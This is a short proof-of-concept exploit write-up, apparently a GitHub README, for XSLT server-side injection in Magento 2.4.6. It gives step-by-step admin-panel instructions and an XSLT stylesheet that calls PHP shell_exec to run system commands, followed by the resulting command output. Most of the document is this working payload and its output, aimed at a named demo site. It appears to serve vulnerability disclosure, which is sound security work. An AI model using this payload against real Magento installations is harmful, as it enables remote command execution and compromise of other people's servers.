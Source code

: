 # Magento-ver.-2.4.6
Magento ver. 2.4.6 - XSLT Server Side Injection
# Exploit Title: Magento ver. 2.4.6 - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
- **Software Link:** [Magento 2.4.6-p3](https://github.com/magento/magento2/archive/refs/tags/2.4.6-p3.zip)
- **Version:** 2.4.6
- **Tested on:** 2.4.6

## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)


